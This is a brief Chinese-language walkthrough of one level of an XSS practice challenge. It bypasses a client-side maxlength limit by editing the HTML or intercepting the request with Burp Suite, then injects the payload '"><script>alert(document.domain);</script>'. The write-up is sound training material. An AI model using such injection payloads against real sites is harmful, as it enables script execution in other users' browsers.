 ![尝试提交 js 代码](./../../../../images/XSS%20Challenges/%E5%B0%9D%E8%AF%95%E6%8F%90%E4%BA%A4%20js%20%E4%BB%A3%E7%A0%81.png)

> 发现字符长度有限制，无法提交 js 代码

查看源码

```
<input type="text" name="p1" maxlength="15" size="30" value="">
```

>`maxlength="15" ` 限制字符长度为 15

修改限制为 150

```
<input type="text" name="p1" maxlength="150" size="30" value="">
```

再次提交

```
"><script>alert(document.domain);</script>
```

> 成功注入
>
> 由于只对前端限制，也可以通过 burpsuite 抓包修改
>
> ```
> p1="><script>alert(document.domain);</script>
> ```
>
> 若有 WAF 或后端限制，则无法修改

